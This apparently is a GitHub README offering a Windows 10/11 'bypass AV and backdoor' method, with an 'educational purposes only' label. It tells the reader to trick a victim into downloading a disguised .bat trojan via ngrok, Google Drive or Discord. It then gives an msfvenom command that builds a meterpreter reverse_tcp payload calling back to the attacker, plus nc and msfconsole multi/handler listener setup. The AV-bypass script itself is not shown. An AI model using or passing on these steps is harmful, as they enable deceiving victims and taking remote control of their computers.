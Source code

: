# Windows 11/10 Bypass AV & Backdoor
##### Educational purposes only
##### Social Engineering required!
#### Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
#### Make it convincing by turning it into a trojan horse.

### Generate the payload:
#### Using meterpreter here, but feel free to play around with it.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

# Setup your listener with nc or msfconsole. <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
